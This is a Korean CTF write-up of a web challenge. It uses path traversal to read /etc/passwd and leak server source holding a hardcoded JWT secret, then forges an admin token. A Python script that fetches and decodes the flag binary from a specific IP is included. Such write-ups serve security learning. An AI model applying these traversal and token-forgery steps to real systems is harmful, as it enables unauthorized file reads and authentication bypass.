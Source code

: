 # 키워드
- Path Traversal

# 풀이과정
- n0paew님 풀이
- 문제 파일에 있는 image 폴더에서 이미지 명을 확인하고 request를 보내보면, 다음과 같이 이미지가 출력되게 됨
![[Pasted image 20231230041632.png]]

- 이미지 대신 상대경로를 이용해 서버 파일을 유출시킬 수 있음
- 이때 들어오는 파일은 base64로 인코딩 되어있어서 디코딩하면 `/etc/passwd`을 얻을 수 있음
- 따라서 `Path Traversal` 취약점이 있음을 알 수 있음
![[Pasted image 20231230041857.png]]

- 우선 jwt token key를 확인하기 위해 ../routes/admin.js 를 요청해보면, admin.js 파일을 얻을 수 있음
```js
const express = require('express');
const router = express.Router();
const jwt = require('jsonwebtoken');
const fs = require('fs');
const path = require('path');

const key = "Hi,im_yeonwookim!"

router.get('/', (req, res) => {
  try {
    const token = req.query.t; 
    const decoded = jwt.verify(token,key);
    if (decoded.id === 'admin') {

      res.set('Cache-Control', 'no-store');
      const flagPath = path.join(__dirname, '../../../../../../../../flag');

      fs.readFile(flagPath, (err, data) => {
        if (err) {
          res.status(500).json({ error: 'Internal Server Error. Report to yeonwoo plz.' });
        } else {
          const encodedData = Buffer.from(data).toString('base64');

          res.json({ flag: "Great!!", res: encodedData });
        }
      });
    } else {
      res.status(403).json({ error: 'Permission denied' });
    }
  } catch (error) {
    res.status(403).json({error: 'Permission denied'});
  }
});

module.exports = router;
```

- [토큰 생성 사이트](https://jwt.io/)
- 해당 key(Hi,im_yeonwookim!)를 통해 id가 admin인 jwt token을 생성할 수 있음
![[Pasted image 20231230042224.png]]

- 해당 jwt token을 admin page에 넣게 되면 flag: Great!!과 res: Great!!문구를 볼 수 있고, 이를 웹프록시 툴로 분석해보면 elf파일임을 알 수 있음
```python
import requests
import base64
url = "http://13.230.131.70:9000/admin?t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImFkbWluIiwiaWF0IjoxNzAzMjQyOTM4fQ.pHHw12_CoelGoyl1P2ORCgzPzb44gzk6s1S3-ncxbf8"

res = requests.get(url)
json_elf = res.json()
with open('./decodeelf','wb') as file:
	file.write(base64.b64decode(json_elf['res']))
```
![[Pasted image 20231230042511.png]]

- 위 바이너리를 linux에서 실행하면 flag를 얻을 수 있음
![[Pasted image 20231230042535.png]]

